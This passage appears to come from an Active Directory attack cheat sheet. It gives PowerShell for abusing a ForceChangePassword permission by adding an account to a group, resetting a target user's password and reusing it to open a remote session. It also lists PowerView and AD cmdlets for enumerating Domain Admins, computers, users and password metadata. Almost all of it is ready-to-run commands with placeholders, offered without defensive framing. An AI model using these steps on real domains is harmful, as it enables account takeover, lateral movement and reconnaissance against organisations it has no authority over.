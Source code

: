 - ForceChangePassword

```powershell
# group member who has permission
Add-ADGroupMember "<groupname>" -Members "<ADAccount>" 
# checking user alreay in the group
Get-ADGroupMember -Identity "<groupname>"
# start to change password 
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("<ADAccount>", $password )
# using same password to change target user's password
Set-ADAccountPassword -Identity "<Target ADAccount>" -Reset -NewPassword $password -Credential $cred
# if access denied, reconnect
gpupdate /force

# we can use Enter-PSSession to connect to target host
$cred = New-Object System.Management.Automation.PSCredential ("<Target ADAccount>", $password )
Enter-PSSession -ComputerName <computer_name> -Credential $cred
```

### :open_file_folder: PowerView

```powershell
Import-Module .\PowerView.ps1
# check if loading is successful
Get-Module
```

```powershell
# Groups
Get-NetGroup
# member of the target group
Get-NetGroup "Domain Admins" | select member
```

```powershell
# Computers
Get-NetComputer -fulldata
# select
Get-NetComputer -fulldata | select operatingsystem
```

```powershell
# Users
Get-NetUser
Get-NetUser | select cn
# find AD users
Get-ADUser -Identity <AD account> -Server <domain controller> -Properties *
Get-ADUser -Filter * -Properties * | select Name, SamAccountName, Description
Get-DomainUser -Identity <AD account> -Properties MemberOf, objectsid
# password last set
Get-NetUser -properties name, pwdlastset, logoncount, badpwdcount
# GroupMembers
Get-ADGroupMember -Identity <groupname>
```
